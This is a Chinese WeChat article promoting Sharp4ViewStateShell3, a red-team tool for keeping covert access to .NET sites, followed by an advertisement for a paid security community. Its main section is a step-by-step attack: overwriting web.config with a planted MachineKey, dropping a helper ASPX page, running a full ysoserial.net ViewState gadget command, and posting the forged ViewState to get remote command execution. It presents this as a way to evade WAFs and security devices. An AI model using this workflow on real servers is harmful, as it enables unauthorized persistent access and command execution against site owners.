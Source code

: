 #  .NET 基于 MachineKey 一键维持权限，反序列化工具实现RCE  
原创 专攻.NET安全的  dotNet安全矩阵   2025-06-19 01:03  
  
![图片](https://mmbiz.qpic.cn/mmbiz_gif/NO8Q9ApS1YibJO9SDRBvE01T4A1oYJXlTBTMvb7KbAf7z9hY3VQUeayWI61XqQ0ricUQ8G1FykKHBNwCqpV792qg/640?wx_fmt=gif&from=appmsg&wxfrom=5&wx_lazy=1&tp=webp "")  
  
在红队渗透测试中，获取初始访问权限仅仅是开始，如何长期、隐蔽地维持权限才是真正的挑战。面对采用**.NET技术栈**  
的Web系统，传统的WebShell容易被安全设备检测，而基于**ViewState反序列化**  
的隐蔽后门技术，则成为红队维持权限的优选方案。  
  
**Sharp4ViewStateShell3**  
 是 Sharp4ViewStateShell 系列工具的最新增强版，通过**自动化修改MachineKey**  
、**动态释放辅助脚本**  
，并结合**ViewState反序列化漏洞**  
，实现无文件隐蔽的远程命令执行。相较于前代版本，支持**自定义站点路径**  
，使其在渗透中更具适应性和稳定性。  
  
**01. 工具基本介绍**  
  
  
  
相较于旧版工具，Sharp4ViewStateShell3 主要优化了以下功能，支持指定站点根目录  
，精准定位web.config  
，避免误操作。  
  
自动在同级目录释放**GenerateViewState.aspx**  
，确保请求路径可控。适配虚拟目录结构  
，使请求更符合正常业务流量，规避WAF检测。  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/NO8Q9ApS1YicBY5QtCNOPbsHFicvibgFQHwHea6dXHrAiazgWlJNhhLd3W50HF0iceWZN4vL3TBP8UvUTM1hROjN6Ug/640?wx_fmt=jpeg&from=appmsg "")  
  
**02. 工具实战用法**  
  
  
  
.NET 的 ViewState 功能本质是为了解决 Web 应用的无状态问题，保存控件状态信息。但如果目标应用开启了 EnableViewStateMac="true"  
 并使用弱或可控的 MachineKey，攻击者就可以伪造 ViewState，借助 ysoserial.net 工具构造反序列化链，从而实现命令执行RCE。  
本文内容和涉及的工具仅限安全研究目的，严禁用于非法渗透测试。使用者需遵守当地法律法规，未经授权测试造成的法律后果自行承担。  
## 2.1 一键修改配置文件  
  
修改目标  
假设目标站点的物理路径为：C:\  
inetpub\wwwroot\，  
在具有写入权限的目录，Upload  
下执行如下命令：  
  
```
C:\inetpub\wwwroot\Upload> Sharp4ViewStateShell3.exe "C:\inetpub\wwwroot"
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1YicBY5QtCNOPbsHFicvibgFQHweJED4kdFyhAn395ibPbZ9IFdSCDKyJgQ9TkFhlU6vMbf7bRmqliazVicw/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1YicBY5QtCNOPbsHFicvibgFQHwo531s4aIpLgvsaIB9CtYYzZNdLtPC38oewiauicQvz4I6xrhwkuLNyLw/640?wx_fmt=png&from=appmsg "")  
  
该命令会完成以下操作：修改**web.config**  
，插入预设的MachineKey：  
  
```
<machineKey  validationKey="B8D7C72D38E8972EA6B955F2D4C8D5B0A2E3F4C6A9B1D3E5F7A9C8B6D4E2F1"  decryptionKey="E4D5C6B3A8F9E7D6C5B4A3F2E1D0C9B8A7"  validation="SHA1"  decryption="AES"/>
```  
  
  
**在Upload目录下生成GenerateViewState.aspx**  
，用于获取__VIEWSTATEGENERATOR  
值。  
## 2.2 获取关键参数  
  
访问生成的页面，获取__VIEWSTATEGENERATOR  
：  
  
```
GET /Upload/GenerateViewState.aspx HTTP/1.1Host: target.com
```  
  
  
打开浏览器开发者工具，或使用 Burp 抓包查看响应内容，通常可获取：  
  
```
<input type="hidden" name="__VIEWSTATEGENERATOR"value="CA0B0334"/>
```  
  
## 2.3 生成恶意的ViewState  
  
使用 ysoserial.net 构造反序列化命令，生成后会输出一串 Base64 编码字符串，对应 ViewState 值。具体用法如下所示。  
  
```
ysoserial.exe -p ViewState -g XamlAssemblyLoadFromFile -c "./ExploitClass.cs;./dlls/System.dll;./dlls/System.Web.dll" \--validationalg="SHA1" \--validationkey="28E969418EFBAF7DAF4A05B12A9F588774129BA306ED094A0C9CA70A45F6C4A83512EB9CF050D7261ADA8E57728B830E540BC26394CEF1F43AEC642AD61D894F" \--decryptionalg="AES" \--decryptionkey="F6F6CB3C4FE662991CEF709C5A2ACDDD228FDF21CD708186736FE4B3E008B3A6" \--generator="DBC4925F"
```  
  
  
该命令会输出Base64编码的__VIEWSTATE  
值，用于后续攻击  
## 2.4 发送恶意请求  
  
构造POST请求，将生成的ViewState数据发送至目标：  
  
```
POST /Upload/GenerateViewState.aspx HTTP/1.1Host: target.comContent-Type: application/x-www-form-urlencodedContent-Length:8921__VIEWSTATE=[恶意Payload]&__EVENTTARGET=&__EVENTARGUMENT=
```  
  
  
如一切配置正确，将在页面响应中看到命令结果，比如 tasklist  
。  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1YibCwETGPtWyQJXCwHWxj47JzIR8aZZFYIQJl0N31k30dUJfcNuFBZl4NL4icTXuBJ4Q9jBVFQJtshA/640?wx_fmt=png&from=appmsg&watermark=1&wxfrom=5&wx_lazy=1&tp=webp "")  
  
综上，  
Sharp4ViewStateShellPlus.exe  
 释放了一个GenerateViewState脚本，更加容易获取__VIEWSTATEGENERATOR 参数值，再加上  
利用了 .NET 的 ViewState 反序列化机制配合自定义 MachineKey，实现持久化远程命令执行，非常适合在红队渗透中用于权限维持。  
文章涉及的工  
具已  
打包在星球，感兴趣的朋友可以加入自取。  
  
**03.NET安全扩展学习**  
  
  
  
以上相关的知识点已收录于  
新书《.NET安全攻防指南》，全书共计25章，总计1010页，分为上下册，横跨.NET Web代码审计与红队渗透两大领域。  
  
  
**上册深入剖析.NET Web安全审计的核心技术，帮助读者掌握漏洞发现与修复的精髓；下册则聚焦于.NET逆向工程与攻防对抗的实战技巧，揭秘最新的对抗策略与技术方法。**  
  
  
**04. 技术精华内容**  
  
  
  
从漏洞分析到安全攻防，我们涵盖了 .NET 安全各个关键方面，为您呈现最新、最全面的 .NET 安全知识，下面是公众号发布的精华文章集合，推荐大伙阅读！  
  
[](https://mp.weixin.qq.com/s?__biz=MzUyOTc3NTQ5MA==&mid=2247499267&idx=2&sn=1462cf23c9a8568cc80705d2d3a1a69e&scene=21#wechat_redirect)  
  
  
[](https://mp.weixin.qq.com/s?__biz=MzUyOTc3NTQ5MA==&mid=2247499837&idx=2&sn=a8a2483424b1932e7ec931be792744ba&scene=21#wechat_redirect)  
  
  
[](http://mp.weixin.qq.com/s?__biz=MzUyOTc3NTQ5MA==&mid=2247493952&idx=4&sn=db68011fb075c1d02268811163646b53&chksm=fa5947adcd2ecebbb1ca6659f289a5e344e37d1136fe0bd9272b5578e4c71bb19bb250e934d3&scene=21#wechat_redirect)  
  
  
[](http://mp.weixin.qq.com/s?__biz=MzUyOTc3NTQ5MA==&mid=2247495167&idx=1&sn=9280c55fdc7c9146e549be470cf9f120&chksm=fa594312cd2eca04bfe8fd1fd3890b389d9c700b9b69d897f919addac399bab4f4d2e55f6b4f&scene=21#wechat_redirect)  
  
  
[](http://mp.weixin.qq.com/s?__biz=MzUyOTc3NTQ5MA==&mid=2247490722&idx=2&sn=c9807daa5548e139a0c67303cb26882a&chksm=fa5ab24fcd2d3b59a85be03e69c655ffd644e8458bc2ec3f572da4b40b43e5003fda756f35b4&scene=21#wechat_redirect)  
  
  
  
[](http://mp.weixin.qq.com/s?__biz=MzUyOTc3NTQ5MA==&mid=2247490703&idx=2&sn=e7db1ff662e5b41d9a1806fbdf33e204&chksm=fa5ab262cd2d3b7470f029b9a07d1dd3611e63be910b01a601144efe7d84b5f016f488a354cf&scene=21#wechat_redirect)  
  
  
  
[](http://mp.weixin.qq.com/s?__biz=MzUyOTc3NTQ5MA==&mid=2247490700&idx=2&sn=e8a865ada7c743e77fb9e953c5da74b1&chksm=fa5ab261cd2d3b7736387eddfc8524a378a1604552d0c9b55476646f9e8275f48818aab8acad&scene=21#wechat_redirect)  
  
  
  
[](http://mp.weixin.qq.com/s?__biz=MzUyOTc3NTQ5MA==&mid=2247488736&idx=2&sn=d24aaa297c51eb620ccdf67af513086d&chksm=fa5aba0dcd2d331bbb22f3f5657199d718c90efed42fcb9cb67ec23d342f887c117e4858f1cb&scene=21#wechat_redirect)  
  
  
**05. 加入安全社区**  
  
  
  
目前dot.Net安全矩阵星球已成为中国.NET安全领域最知名、最专业的技术知识库之一，超 **1200+**  
 成员一起互动学习。星球主题数量近 **600+**  
，精华主题   
230+  
，PDF文档和压缩包   
300+   
。从Web应用到PC端软件应用，无论您是初学者还是经验丰富的开发人员，都能在这里找到对应的实战指南和最佳实践。  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/NO8Q9ApS1Y9AiaXibTRdEnEfYuQx76FjZVjmyEWtIaDuDePFFmyRqggiaq2k47pLoib9GZtUCOhaP40WPlhvbiaKZVg/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
## 20+专栏文章  
  
星球文化始终认为授人以鱼不如授人以渔！星球整理出**20+**  
个专题栏目涵盖 **.NET安全 点、线、面、体等知识范围**  
，助力师傅们实战攻防！其中主题包括.NET  内网攻防、漏洞分析、内存马、代码审计、预编译、反序列化、WebShell免杀、命令执行、工具库等等。  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/NO8Q9ApS1Y8xRheDpQ7NsESosdNZUopa90SJRuwnLy9uZV4icrXiaZlJPQlYJWXTw8HCrF9oTcE3DDgrdFnXo2BA/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
## 海量资源和工具  
  
截至当前，dot.Net安全矩阵星球社区汇聚了   
**600+**  
 个实用工具和高质量PDF学习资料。这些资源涵盖了攻防对抗的各个方面，在实战中能够发挥显著作用，为对抗突破提供强有力的支持。  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/NO8Q9ApS1Y8xRheDpQ7NsESosdNZUopaqVZW8XsALVA4FNiaj32q8npN82VSeqSKb4fQvLiczFNs0099VRFVQwPA/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/NO8Q9ApS1Y8xRheDpQ7NsESosdNZUopa63ZXbX3YXLwoeNnjStcRtTbU9hoe6ecO5hhkj2apG1I6tKlkpz5GaQ/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
## 专属成员交流群  
  
我们还有多个成员专属的  
**内部星球陪伴群**  
，加入的成员可以通过在群里提出问题或参与论的方式来与其他成员交流思想和经验。此外还可以通过星球或者微信群私聊向我们进行提问，以获取帮助迅速解决问题。  
  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1Y8xRheDpQ7NsESosdNZUopaAiaouHb6HYza539m9v0ykDoD2JezaArDZBPlJInuabf6XsduzVcjZ0Q/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
## 已入驻的大咖们  
  
星球汇聚了各行业安全攻防技术大咖，并且每日分享.NET安全技术干货以及交流解答各类技术等问题，社区中发布很多  
**高质量的.NET安全资源**  
，可以说市面上很少见，都是干货。  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1YibEkb2HkMVuw4d7qjcTYUtl04w8xDiaUaJxticro644uWw5XuJ6ZXCNXCticjYWjpXNmp3omQHUNFRPg/640?wx_fmt=png&from=appmsg&wxfrom=5&wx_lazy=1&tp=webp "")  
## 欢迎加入我们  
  
dotNet安全矩阵星球从创建以来一直聚焦于.NET领域的安全攻防技术，定位于高质量安全攻防星球社区，也得到了许多师傅们的支持和信任，通过星球深度连接入圈的师傅们，一起推动.NET安全高质量的向前发展。  
**星球门票后期价格随着内容和质量的不断沉淀会适当提高，因此越早加入越好！**  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/NO8Q9ApS1Y8xRheDpQ7NsESosdNZUopag09JtYcKpucjZPAlfeqC1ovcQvhrkemAzbURDaVF3InmpQshiatDnyQ/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
  
